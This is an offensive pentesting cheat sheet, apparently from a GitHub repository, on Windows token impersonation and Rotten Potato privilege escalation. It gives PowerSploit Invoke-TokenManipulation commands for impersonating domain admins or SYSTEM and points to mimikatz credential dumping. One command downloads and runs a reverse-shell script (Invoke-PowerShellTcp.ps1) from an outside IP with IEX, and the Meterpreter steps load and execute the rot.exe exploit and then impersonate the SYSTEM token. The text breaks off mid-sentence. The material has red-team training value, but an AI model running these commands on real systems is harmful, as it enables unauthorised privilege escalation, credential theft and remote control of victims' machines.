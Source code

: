 ## Token Impersonation

Token impersonation is a technique you can use as local admin to impersonate another user logged on to a system. This is very useful in scenarios where you are local admin on a machine and want to impersonate another logged on user, e.g a domain administrator.

##### Powershell
We can do token impersonation directly in powershell with a completely legitimate module. This will spawn a new thread as the user you impersonation, but it can be made to work in the same thread. Therefore, if you impersonate and then type whoami it might still show the original username, but you still have privs as your target user. If you do however spawn a new process (or a new shell) and migrate to that you will have a shell as the account you are impersonating.

Token impersonation is now a part of Powersploit https://github.com/PowerShellMafia/PowerSploit/blob/c7985c9bc31e92bb6243c177d7d1d7e68b6f1816/Exfiltration/Invoke-TokenManipulation.ps1


Invokes token impersonation as a domain user. If this doesn't work you can try impersonating SYSTEM and then dumping credentials using mimikatz.

`Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"`

`Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"`

`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "cmd.exe"`

As a replacement for the last command you could do, but be vary of special characters in the command like `"` and `'`
`Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"`



### Rotten potato exploit
The rotten potato exploit is a privilege escalation technique that allows escalation from service level accounts to SYSTEM through token impersonation. This can be achieved through uploading an exe file exploit and executing or through memory injection with psinject in either Empire or Metasploit. See [Foxglove security's writeup](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/) of the exploit for more detail.

##### Meterpreter
Get a meterpreter shell as a service account and upload rot.exe to the box.

`getuid` - shows who you are, like `whoami`
`getprivs` - shows you available tokens for impersonation
`getsystem` - allows SYSTEM token impersonation directly in meterpreter if local admin
`use incognito` - loads an extension that allows token impersonation
`list_tokens -u` - lists available impersonation and delegation tokens

Now this is not very nice, but upload the exploit to disk
Now you can use meterpreter's feature of executing binaries straight into memory and if that doesn't work upload it to disk as a dll and use rundll32 to execute it.

`execute -H -c -m -d calc.exe -f /root/rot.exe`
`upload rot.dll "c:\temp\rot.dll"`
`execute -H -c -f "rundll32 c:\temp\rot.dll,Main`
Now do `list_tokens -u` again, and an impersonation token for SYSTEM should be available.
You can then impersonate using 
`impersonate_token "NT AUTHORITY\SYSTEM"`

Congratulations, you are now 
